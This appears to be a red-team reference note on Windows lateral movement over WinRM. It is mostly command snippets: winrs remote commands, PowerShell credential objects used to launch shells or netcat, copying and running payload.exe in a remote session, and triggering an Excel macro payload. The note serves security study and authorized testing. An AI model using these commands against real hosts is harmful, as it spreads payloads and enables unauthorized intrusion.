 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - living-off-the-land
  - T1021-006
  - network-protocols
  - winrm
  - windows
---
```

# Living off the Land

## 01 - Command Prompt

Using `winrs.exe` to laterally spawn shells via WinRM

```
C:\> winrs -remote:<IP> <commands>

C:\> winrs -r:http://<IP>/wsman <commands>

C:\> winrs -r:<IP> -ad -u:<username> -p:<password> <commands>
```

## 02 - PowerShell

### 2.1 - Start-Process

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

Start-Process -FilePath C:\path\to\shell.exe -NoNewWindow -Credential $credential -WorkingDirectory c:\users\public
```

You can pass arguments as well when using `netcat` for example

```
PS C:\> Start-Process -FilePath <C:\path\to\program.exe> -NoNewWindow -Credential $credential -ArgumentList ("<arg1>","<arg2>","<arg3>") -WorkingDirectory C:\Users\Public
```

### 2.2 - Authenticate Remotely

```powershell
PS C:\> $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential("<username>", $password)
$computer = "<IP>"
[System.Diagnostics.Process]::Start("<Commands>", $credential.Username, $credential.Password, $computer)
```

```powershell
PS C:\> $ip = New-PSSession -ComputerName <IP>

Copy-Item payload.exe -Destination "c:\users\public\" -ToSession $ip

Invoke-Command -Session $ip -ScriptBlock {c:\users\public\payload.exe}
```

### 2.3 - Macros

#### 2.3.1 - `Excel.Application`

```
PS C:\> Invoke-Command -ComputerName <IP> -Credential $credential -ScriptBlock {
	$excel = New-Object -ComObject Excel.Application
	$workbook = $excel.Workbooks.Open("C:\path\to\payload.xls")
	$excel.Run("mymacro")
	$workbook.Close($false)
	$excel.Quit()
}
```

---
## References

### Backlink

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Lateral Movement/Windows/02 - RPC/04 - DCOM/Manual/Living off the Land]]

### Github

- [HarmJ0y: PsRemoting.ps1](https://gist.github.com/HarmJ0y/4c37e43ba4865bdef2a8)

### SS64

- [SS64: WinRS](https://ss64.com/nt/winrs.html)

### Microsoft

- [Powershell Module New-CimSession](https://docs.microsoft.com/en-us/powershell/module/cimcmdlets/new-cimsession?view=powershell-7.2)

- [Powershell Module Get-CimSession](https://docs.microsoft.com/en-us/powershell/module/cimcmdlets/get-cimsession?view=powershell-7.2)

### LOFLCAB

- [LOFLCAB: Enter-PSSession](https://lofl-project.github.io/loflcab/Cmdlets/Enter-PSSession/)

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

### Slayer Labs

- [Slayer Labs: Kerberos Double-Hop Workarounds](https://posts.slayerlabs.com/double-hop/)

### Hacking Articles

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)

### Pentestlab

- [Pentestlab Blog: Powershell Remoting](https://pentestlab.blog/tag/powershell-remoting/)